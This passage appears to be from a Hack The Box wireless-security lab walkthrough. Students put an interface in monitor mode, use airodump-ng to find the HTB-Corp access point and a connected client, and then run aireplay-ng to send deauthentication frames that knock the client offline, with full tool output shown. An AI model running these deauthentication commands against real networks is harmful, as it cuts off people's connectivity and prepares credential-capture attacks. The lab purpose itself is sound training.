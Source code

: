 ```

		(mac80211 monitor mode vif enabled for [phy2]wlan0 on [phy2]wlan0mon)
		(mac80211 station mode vif disabled for [phy2]wlan0)
phy3	wlan1		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
```

Subsequently, students will initiate `airodump-ng` on channel one and will take note of the BSSID of the legitimate access point (`HTB-Corp`) and the BSSID of the client connected to it. Note the client's BSSID (MAC address) is subject to change upon spawn/reset of the target.:

Code: shell

```shell
sudo airodump-ng wlan0mon -c 1
```

```
root@HTB-Corp:/home/wifi# sudo airodump-ng wlan0mon -c 1

 CH  1 ][ Elapsed: 36 s ][ 2025-01-08 11:27 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 3C:B4:03:39:BB:6C  -28 100      348       12    0   1   54   WPA2 CCMP   MGT  HTB-Corp                           
 B2:E1:92:3D:E3:04  -28 100      348        0    0   1   54   WPA2 CCMP   MGT  HTB-Corp                           

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 3C:B4:03:39:BB:6C  52:7C:9C:12:90:BD  -29    2 -24      0       10  
```

They will open a new terminal, switch to the `root` user, and perform de-authentication of the client connected to the legitimate `HTP-Corp` network using `aireplay-ng` by specifying the MAC address (STATION) of the client and `HTB-Corp`'s network found earlier:

Code: shell

```shell
sudo -s
sudo aireplay-ng -0 6 -c 52:7C:9C:12:90:BD -a 3C:B4:03:39:BB:6C wlan0mon
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# sudo aireplay-ng -0 6 -c 52:7C:9C:12:90:BD -a 3C:B4:03:39:BB:6C wlan0mon

11:30:51  Waiting for beacon frame (BSSID: 3C:B4:03:39:BB:6C) on channel 1
11:30:52  Sending 64 directed DeAuth (code 7). STMAC: [52:7C:9C:12:90:BD] [ 0| 0 ACKs]
11:30:52  Sending 64 directed DeAuth (code 7). STMAC: [52:7C:9C:12:90:BD] [ 0| 0 ACKs]
11:30:53  Sending 64 directed DeAuth (code 7). STMAC: [52:7C:9C:12:90:BD] [ 0| 0 ACKs]
11:30:53  Sending 64 directed DeAuth (code 7). STMAC: [52:7C:9C:12:90:BD] [ 0| 0 ACKs]
11:30:54  Sending 64 directed DeAuth (code 7). STMAC: [52:7C:9C:12:90:BD] [ 0| 0 ACKs]
11:30:54  Sending 64 directed DeAuth (code 7). STMAC: [52:7C:9C:12:90:BD] [ 0| 0 ACKs]
```
